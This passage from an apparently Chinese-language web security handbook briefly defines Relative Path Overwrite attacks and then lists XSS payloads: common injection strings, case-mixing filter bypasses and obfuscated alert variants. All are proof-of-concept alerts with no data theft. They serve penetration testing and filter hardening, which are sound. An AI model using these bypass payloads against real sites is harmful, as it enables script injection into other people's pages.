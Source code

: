 
------------

3.2.8.4. RPO(Relative Path Overwrite)
RPO(Relative Path Overwrite) 攻击又称为相对路径覆盖攻击，依赖于浏览器和网络服务器的反应，利用服务器的 Web 缓存技术和配置差异。

------------

3.2.9. Payload
3.2.9.1. 常用
```
<script>alert(/xss/)</script>
<svg onload=alert(document.domain)>
<img src=document.domain onerror=alert(document.domain)>
<M onmouseover=alert(document.domain)>M
<marquee onscroll=alert(document.domain)>
<a href=javascript:alert(document.domain)>M</a>
<body onload=alert(document.domain)>
<details open ontoggle=alert(document.domain)>
<embed src=javascript:alert(document.domain)>
```


------------

3.2.9.2. 大小写绕过
```
<script>alert(1)</script>
<sCrIpT>alert(1)</sCrIpT>
<ScRiPt>alert(1)</ScRiPt>
<sCrIpT>alert(1)</ScRiPt>
<ScRiPt>alert(1)</sCrIpT>
<img src=1 onerror=alert(1)>
<iMg src=1 oNeRrOr=alert(1)>
<ImG src=1 OnErRoR=alert(1)>
<img src=1 onerror="alert(&quot;M&quot;)">
<marquee onscroll=alert(1)>
<mArQuEe OnScRoLl=alert(1)>
<MaRqUeE oNsCrOlL=alert(1)>
```

------------

3.2.9.3. 各种alert
```
<script>alert(1)</script>
<script>confirm(1)</script>
<script>prompt(1)</script>
<script>alert('1')</script>
<script>alert("1")</script>
<script>alert`1`</script>
<script>(alert)(1)</script>
<script>a=alert,a(1)</script>
<script>[1].find(alert)</script>
<script>top["al"+"ert"](1)</script>
<script>top["a"+"l"+"e"+"r"+"t"](1)</script>
<script>top[/al/.source+/ert/.source](1)</script>
<script>top[/a/.source+/l/.source+/e/.source+/r/.source+/t/.source](1)</script>

```
